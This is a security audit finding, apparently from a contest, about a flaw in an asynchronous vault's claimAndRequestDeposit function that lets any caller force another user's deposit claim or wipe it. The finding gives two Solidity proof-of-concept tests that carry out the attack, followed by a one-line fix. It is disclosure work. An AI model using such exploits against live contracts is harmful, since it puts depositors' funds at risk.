 Ripe Fiery Snail

high

# Attacker can force arbitrary user to claim request deposit by calling `claimAndRequestDeposit`

## Summary

An attacker can force the user to claim a request deposit  by calling `claimAndRequestDeposit` which resulted in resetting the request deposit and loss of funds if the current epoch, or force claim if not current in epoch.

## Vulnerability Detail

The root cause of the issue is that [claimAndRequestDeposit](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204) passes `receiver` as `owner`. This allows an attacker to pass the victim's address as a receiver and force them to claim. This is very dangerous and could cause several issues. 

This could be leveraged with the usage of other vulnerabilities that reset pending requests for the current epoch, which would result in resetting someone's request deposit and causing a loss of funds.

Another case would be if the owner would be a smart contract that updates some internal state when claiming a deposit. By forcing the smart contract to claim a deposit outside of its flow, the 3rd party smart contract might enter to some unexpected state.

## Impact

- funds lost by arbitrary users.
- user as smart contract can enter an unexpected state

## Code Snippet

Reset arbitrary user's request deposit
```solidity
function test_reset_someone_deposit_request() external {
        // vault cannot be empty to close it
        usersDealApproveAndDeposit(vaultTested, 1);

        // close the vault so we can request a deposit
        close(vaultTested);

        // user1 deposits
        usersDealApproveAndRequestDeposit(vaultTested, 1, "");

        // at this point, user1 has a non-zero deposit request
        assertGt(vaultTested.pendingDepositRequest(user1.addr), 0, "Deposit request should be non-zero");

        uint256 sharesBalanceBefore = vaultTested.balanceOf(user1.addr);

        // notice I'm calling claimDeposit as user2, and receiver is set to user1
        vm.prank(user2.addr);
        vaultTested.claimAndRequestDeposit(0, user1.addr, "");

        uint256 sharesBalanceAfter = vaultTested.balanceOf(user1.addr);
        // user2 has claimed the deposit for user1, which reset user1's deposit request
        // balance to 0, without
        // transferring shares to the user1
        assertEq(vaultTested.pendingDepositRequest(user1.addr), 0, "Deposit request should be reset");
        assertEq(sharesBalanceBefore, sharesBalanceAfter, "Shares should not be transferred");
    }
```

Force  arbitrary user to claim deposit
```solidity
function test_force_to_claim_someone_deposit_request() external {
        // vault cannot be empty to close it
        usersDealApproveAndDeposit(vaultTested, 1);

        // close the vault so we can request a deposit
        close(vaultTested);

        // user1 deposits
        usersDealApproveAndRequestDeposit(vaultTested, 1, "");

        // at this point, user1 has a non-zero deposit request
        assertGt(vaultTested.pendingDepositRequest(user1.addr), 0, "Deposit request should be non-zero");

        // settle vault, so the epochId is increased
        vm.startPrank(vaultTested.owner());
        vaultTested.settle(vaultTested.totalAssets());
        vm.stopPrank();

        uint256 sharesBalanceBefore = vaultTested.balanceOf(user1.addr);

        // notice I'm calling claimDeposit as user2, and receiver is set to user1
        vm.prank(user2.addr);
        vaultTested.claimAndRequestDeposit(0, user1.addr, "");

        uint256 sharesBalanceAfter = vaultTested.balanceOf(user1.addr);
        // user2 has claimed the deposit for user1, which reset user1's deposit request
        // balance to 0, with
        // transferring shares to the user1
        assertEq(vaultTested.pendingDepositRequest(user1.addr), 0, "Deposit request should be reset");
        assertGt(sharesBalanceAfter, sharesBalanceBefore, "Shares should be transferred");
    }
 ```

## Tool used

Manual Review

## Recommendation

Pass `msgSender` as owner

```diff

function claimAndRequestDeposit(
        uint256 assets,
        address receiver,
        bytes memory data
    )
        external
    {
-      _claimDeposit(receiver, receiver);
+      _claimDeposit(_msgSender(), receiver);
        requestDeposit(assets, receiver, _msgSender(), data);
    }
```
